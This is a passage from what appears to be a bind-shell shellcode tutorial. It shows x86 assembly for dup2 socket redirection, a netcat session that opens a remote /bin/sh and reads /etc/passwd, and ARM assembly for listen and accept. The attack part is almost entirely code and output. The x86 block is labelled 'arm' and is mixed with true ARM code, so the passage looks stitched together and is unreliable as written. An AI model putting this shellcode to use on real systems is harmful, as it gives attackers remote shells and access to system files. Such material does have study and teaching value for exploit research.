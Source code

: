 Finally, the system call number for dup2() is 0x3f. That leaves us with the following code assembly for dup2() if we assume esi stores our sockfd

```arm
    mov ebx,esi             ;sockfd
    xor ecx,ecx             ;stdin 0

    xor eax,eax
    mov al, 0x3f
    int 0x80

    inc ecx                 ;stdout 1
    xor eax,eax
    mov al, 0x3f
    int 0x80

    inc ecx                 ;stderr 2
    xor eax,eax
    mov al, 0x3f
    int 0x80
```

connect remotely
```bash
    $ netcat 192.168.56.101 31337
    ...
    accept(3, 0, NULL)                      = 4
    dup2(4, 0)                              = 0
    dup2(4, 1)                              = 1
    dup2(4, 2)                              = 2
    execve("/bin//sh", [0], [/* 0 vars */]) = 0
    ...
    cat /etc/passwd 
    root:x:0:0:root:/root:/bin/bash
```

### Listen for Incoming Connections
```arm
    mov     r0, r4  @ r0 = saved host_sockid 
    mov     r1, #2
    add     r7, #2  @ r7 = 284 (listen syscall number)
    svc     #1
```
### Accept Incoming Connection
```arm
    mov     r0, r4       @ r0 = saved host_sockid 
    sub     r1, r1, r1   @ clear r1, r1 = 0
    sub     r2, r2, r2   @ clear r2, r2 = 0
    add     r7, #1       @ r7 = 285 (accept syscall number)
    svc     #1
    mov     r4, r0       @ save result (client_sockid) in r4
```
